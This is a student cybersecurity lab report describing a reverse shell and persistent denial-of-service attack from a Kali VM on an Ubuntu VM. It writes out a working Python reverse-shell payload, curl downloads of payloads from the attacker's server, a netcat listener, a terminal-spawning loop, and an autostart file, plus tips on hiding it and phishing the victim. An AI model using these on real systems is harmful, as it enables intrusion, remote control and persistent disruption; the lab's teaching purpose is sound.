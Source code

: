 ## Huseinovic Elma
## Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

The goal of the demo is to create a persistent Denial of Service on an Ubuntu virtual machine, which will therefore be the attacked machine, while a Kali virtual machine was used for the attacker. To do this, a reverse shell is first created to allow the attacking machine to act freely on the Ubuntu machine.

### Kali Preparation
First of all, all the necessary files were created on Kali.  
First, the `reverseshell.sh` file, where the [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) is in python 
```py
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
which allows to create a reverse shell in the background when executed on the attacked machine.  
Then, a very simple C program, `dos.c`, was created, containing an while loop that continues to open several terminal windows:
```c
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
The terminal was chosen to be opened for simplicity, it is possible to do it with other applications and also open several of them, creating a real crash of the machine.  
Finally, the `dos.desktop` file was created:
```bash
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
It will be used to insert the program that executes the Denial of Service among the applications that open at the start of the machine.  
The Hidden and NoDisplay flags, to highlight the Denial of Service, have been set to false, if they are set to true, the program runs without the user noticing anything, so the machine is slowed down without being able to understand the reason.  
Once the files were created, a [web file server](https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88) was also created on port 80, using the command
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

At this point, the only thing left to do is to listen on the chosen port, to do this it was used [netcat](https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/), with the command: `nc -lvp 4444 -n`

## Reverse shell 

To create the reverse shell, it is necessary for the user on the attacked machine to be convinced to download and execute the `reverseshell.sh` file, this could be done by creating a phishing email and convincing him, for example, that it is a security patch. In the demo, the command `curl -O "http://10.0.2.2/demo/reverseshell.sh"` is used, which downloads the file from the web file server created on Kali. At this point the command `sudo chmod +x reverseshell.sh` is executed which adds the execution permission to the file with administrator privileges. Finally the file is executed with `./reverseshell.sh`.  
Now, being the reverse shell executed in the background, the user on Ubuntu can continue to use the terminal normally, without noticing anything, but in reality he is connected on port 4444 to the Kali machine through a reverse shell.

![Reverse Shell](images/kali-ubuntu-rs.png)

## DoS and persistence

Using the reverse shell, now, it is easy to download the `dos.c` program and the `dos.desktop` file from the Kali web file server always using the `curl` command:  
`curl -O "http://10.0.2.2/demo/dos.c"`  
`curl -O "http://10.0.2.2/demo/dos.desktop"`  
now, the dos.c program is compiled using the `ggc -o dos dos.c` command, thus creating the executable. Before running it, however, persistence must be created.  
To do so, the `dos.desktop` file is moved to `.config/autostart`,is is used the `mv` command, which must, however, be executed with administrator privileges, therefore using `sudo`. This implies that the attacker must know the account password.  
Once `dos.desktop` is moved, the `dos` program is visible in Startup Application Preferences, which shows the programs that are run at the machine startup.  
So, every time the machine is accessed, countless terminal windows will be opened in a loop, making it unusable.

![Startup Application Preferences](images/application-startup.png)

![DoS](images/dos.png)

Furthermore, another interesting feature is that, trying to remove `dos` using the Startup Application Preferences application and restarting the machine, the program is still executed, this is because the `dos.desktop` file present in `.config/autostart` is not removed, and continues to put the program among the applications to be executed at startup.  
To stop this attack you might think of deleting the `dos` executable, but in case it is placed in a folder not easily reachable, this could not be done, especially if you do not know what is happening and if the machine starts to crash.  
Alternatively, you could think of deleting the `dos.desktop` file, but given that it is located in a directory that is hidden by default and given that the terminal is unusable, this could be difficult.

### References
1. The payload for the reverse shell was taken from: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/
2. The creation of the web file server was taken from: https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88
3. The usage of netcat to make the machine listen on a prefefined port was taken from: https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/


